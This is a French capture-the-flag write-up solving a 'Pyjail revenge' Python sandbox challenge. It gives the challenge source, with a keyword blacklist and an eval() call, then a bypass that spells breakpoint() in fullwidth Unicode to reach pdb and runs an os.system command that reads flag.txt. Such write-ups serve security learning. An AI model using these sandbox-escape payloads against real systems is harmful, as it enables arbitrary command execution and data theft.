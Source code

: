 
--- 

# Description du challenge : 

## Pyjail revenge

### 150

Conçu par Oblivios

Fini les payloads classiques, montre moi vraiment ce que tu peux faire pour contourner ça !

Le flag est situé dans `flag.txt`

`Connexion: nc intro.ctfrei.fr 4452`

--- 

> On a un fichier Python 

```python
#!/usr/local/bin/python3

  

blacklist = ["open", "os", "+", "{", "}", "help", "system", "subprocess", \

"lower", "import", "eval", "exec", "sys", "breakpoint", "getattr", \

"builtins","popen", "read", "input", "class", "chr", "ord", "flag", \

"dict", "globals", "update", "locals"]

  

def check_code(code):

if any([x in code for x in blacklist]):

return False

return True

  

def main():

# Je ban autant de mots pour vous

# forcer à trouver LE trick à utiliser

code = input(">>> ")

if check_code(code):

eval(code)

else:

print("Eh t'as utilisé un truc interdit là !")

  

if __name__ == "__main__":

main()
```

> Apres avoir essaye plein de commande pour contourner les mots interdits : 

```
Exemple : (lambda f: (f()._module.setitem(''.join([b'o', b'p', b'e', b'n']).decode(), None), f()._module[''.join([b'o', b'p', b'e', b'n']).decode()](''.join([b'f', b'l', b'a', b'g', b'.', b't', b'x', b't']).decode()).iter().next()) if len(f) > 0 else None)([x for x in (type([]).base.mro[1:]) if x._name_ == "catch_warnings"])
```

> J'étais dans une impasse. J'ai chercher sur internet des W-U de challenges Pyjail et je suis tombé sur ca : [https://jbnrz.com.cn/index.php/2024/08/15/pyjail/](https://jbnrz.com.cn/index.php/2024/08/15/pyjail/#header-id-39)

> J'ai compris qu'on pouvait bypass avec des commandes donc j'ai essayé : breakpoint() sauf que c'est bannit

> J'ai aussi compris que je pouvais utiliser un encodage différent pour bypass : 

> ｂｒｅａｋｐｏｉｎｔ()

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) help

Documented commands (type help <topic>):
========================================
EOF    c          d        h         list      q        rv       undisplay
a      cl         debug    help      ll        quit     s        unt
alias  clear      disable  ignore    longlist  r        source   until
args   commands   display  interact  n         restart  step     up
b      condition  down     j         next      return   tbreak   w
break  cont       enable   jump      p         retval   u        whatis
bt     continue   exit     l         pp        run      unalias  where

Miscellaneous help topics:
==========================
exec  pdb

(Pdb)
```

> Je vois que j'ai accès à **exec** alors je mets génère un payload : 

```python
exec("__import__('os').system('cat flag.txt')")
```

# Résultat : 

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) exec("__import__('os').system('cat flag.txt')")
CTFREI{d4mn_u_g0t_m3_pff}(Pdb)
```

> Flag  : CTFREI{d4mn_u_g0t_m3_pff}
